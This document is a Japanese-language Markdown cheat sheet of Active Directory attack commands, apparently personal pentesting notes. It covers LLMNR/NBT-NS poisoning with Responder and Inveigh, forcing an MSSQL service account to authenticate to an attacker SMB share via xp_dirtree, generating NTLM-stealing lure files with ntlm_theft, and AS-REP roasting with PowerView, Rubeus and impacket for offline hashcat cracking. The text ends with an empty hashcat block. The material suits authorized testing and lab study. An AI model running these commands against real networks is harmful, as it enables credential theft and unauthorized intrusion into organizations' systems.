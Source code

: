## LLMNR / NBT-NS ポイズニング
### Responder
ネットワーク内でLLMNRやNBT-NSリクエストを偽装応答し、NTLMハッシュを奪取
```shell
sudo responder -I <NIC> 
```

MSSQLへのログイン情報があったとき
- サービスアカウントを確認する
```sh
exec master..xp_instance_regread N'HKEY_LOCAL_MACHINE', N'SYSTEM\CurrentControlSet\Services\MSSQL$SQLMOCK', N'ObjectName';
```

サービスアカウントのNTLMハッシュを取得する
```sh
exec master..xp_dirtree '\\10.10.14.62\share';
```
### ntlm_theft
SMBに書き込みができる時に使用例あり
- https://github.com/Greenwolf/ntlm_theft
```sh
git clone https://github.com/Greenwolf/ntlm_theft
cd ntlm_theft
```
Responderと連携し、NTLMv2-SSPチャレンジ/レスポンスハッシュを取得
```shell
python3 ntlm_theft.py -g all -s <RESPONDER_IP> -f generate
```
### Inveigh
Windows上で動作するLLMNR/NBT-NS/mDNS/DNS/DHCPv6ポイズニングおよび中間者攻撃ツール
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```

## AS-REP Roasting
PowerViewはこいつしか信用するな
```sh
wget https://github.com/PowerShellMafia/PowerSploit/raw/refs/heads/dev/Recon/PowerView.ps1
```

### PowerView
Active Directory内でKerberos事前認証が不要 (`DONT_REQ_PREAUTH`) に設定されているユーザーの列挙
```powershell
(PowerView)
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname
```
### Rubeus
事前認証不要のユーザーアカウントのAS-REP（TGT）を要求し、Hashcat形式でハッシュを取得
```powershell
.\Rubeus.exe asreproast /user:<USERNAME> /nowrap /format:hashcat
```
### GetNPUsers.py
Impacketツールキットの一部で、事前認証不要のユーザーのAS-REPハッシュの取得
```shell
(GetNPUsers.py)
impacket-GetNPUsers <DOMAIN_NAME>/ -dc-ip <DC_IP> -no-pass -usersfile valid_ad_users -format hashcat -outputfile asrep_hashes.txt
```
### hashcat
AS-REPハッシュ（モード18200）を辞書攻撃やブルートフォース攻撃でクラック
```shell
```